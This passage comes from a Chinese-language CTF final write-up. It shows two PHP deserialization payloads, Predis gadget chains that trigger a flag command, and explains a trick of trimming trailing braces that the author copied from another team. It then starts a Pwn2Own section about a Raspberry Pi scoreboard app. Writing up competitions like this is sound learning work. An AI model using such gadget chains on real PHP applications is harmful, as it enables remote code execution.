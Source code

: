 但最特別的還是這個

```python
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:10:"parameters";O:28:"Predis\\Configuration\\Options":3:{s:7:"options";a:0:{}s:5:"input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a:1:{s:10:"persistent";s:36:"Predis\\Configuration\\Option\\Commands";}}}'
b'O:34:"Predis\\Connection\\StreamConnection":1:{s:10:"parameters";O:28:"Predis\\Configuration\\Options":3:{s:7:"options";a:0:{}s:5:"input";a:1:{s:10:"persistent";a:2:{i:0;O:35:"Predis\\Cluster\\Distributor\\HashRing":2:{s:16:"nodeHashCallback";s:10:"p0pp3r_win";s:5:"nodes";a:1:{i:0;a:2:{s:6:"weight";i:1;s:6:"object";s:18:"./@ --give-me-flag";}}}i:1;s:7:"getSlot";}}s:8:"handlers";a:1:{s:10:"persistent";s:36:"Predis\\Configuration\\Option\\Commands";}'
```

這兩個 chain 唯一的差別就是刪掉了最後面的 `}`, 是 starburst 隊發現的, 我在短短的 5 秒內分析出了這個手段, 然後把更多尾端的 `}` 刪掉送出, 就成功搶走他們的了, 這前後可能才十秒的時間, 所以這個真的是比手速.

這題是我跟其他隊交流最多的一題 (有打這題的隊伍比例只有 50%), 能感受到正在跟真人互動, 賽後也跟對上的人聊的很開心.

補個 splitline 在賽中說其實也可用的 chain 的 [write-up](https://hackmd.io/@Ching367436/r1w_xLFdo#%E4%BB%BB%E6%84%8F-require--phpinfo-to-RCE), 是去年 edu-ctf 的但沒有官方解答.

## Pwn2Own

題目是一個 樹莓派, 上面有 firmware, 是個計分板的 app.

![pwn2own](/ais3-eof-2024-final/pwn2own.webp)
